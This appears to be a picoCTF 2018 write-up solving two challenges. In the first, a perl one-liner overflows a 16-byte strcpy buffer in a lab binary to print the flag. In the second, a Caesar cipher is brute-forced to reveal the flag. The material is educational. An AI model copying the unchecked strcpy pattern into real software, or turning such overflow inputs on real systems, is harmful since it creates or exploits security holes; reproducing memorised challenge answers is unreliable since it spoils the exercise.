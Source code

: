 # buffer overflow 0
### Binary Exploitaiton: 150p
Let's start off simple, can you overflow the right buffer in this [program](https://2018shell2.picoctf.com/static/7a1b5f87d2fa0b17afa0ee20a3870bb6/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0\_2\_aab3d2a22456675a9f9c29783b256a3d on the shell server. [Source](https://2018shell2.picoctf.com/static/7a1b5f87d2fa0b17afa0ee20a3870bb6/vuln.c).
```C
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}
```
Input to vuln is argv[1]. So if you enter a string, any string, larger than 16 + a few bytes, a sigsegv will happen and the sigsegv\_handler will be called and print the flag.
```bash
cd /problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d
./vuln `perl -e 'print "A"x28'`
```
You could also paste in any string larger than 28 bytes (and doesn't happen to translate to a legal address in the code). Experiments with different lengths. Run under gdb to see exactly what happens.

Note. Debugging binary-only programs is easier with a gdb plugin like for instance [peda](https://github.com/longld/peda).

# caesar cipher 1
### Cryptography: 150p
This is one of the older ciphers in the books, can you decrypt the [message](https://2018shell2.picoctf.com/static/6b5626c0736d9090f5d98de74eec4543/ciphertext)? You can find the ciphertext in /problems/caesar-cipher-1\_0\_931ac10f43e4d2ee03d76f6914a07507 on the shell server.
```bash
cat ciphertext
picoCTF{yjhipvddsdasrpthpgrxewtgdqnjytto}
```
Paste yjhipvddsdasrpthpgrxewtgdqnjytto into an online caesar decipher page. There are many to choose from. Or write your own to print all 26 possible shifts. Number 11 is the only one that resembles english. See [caesar.py](caesar.py).
```bash
python2 caesar.py
...
10 itrszfnncnkcbzdrzqbhogdqnaxtiddy
11 justagoodoldcaesarcipherobyujeez
12 kvtubhppepmedbftbsdjqifspczvkffa
...
```
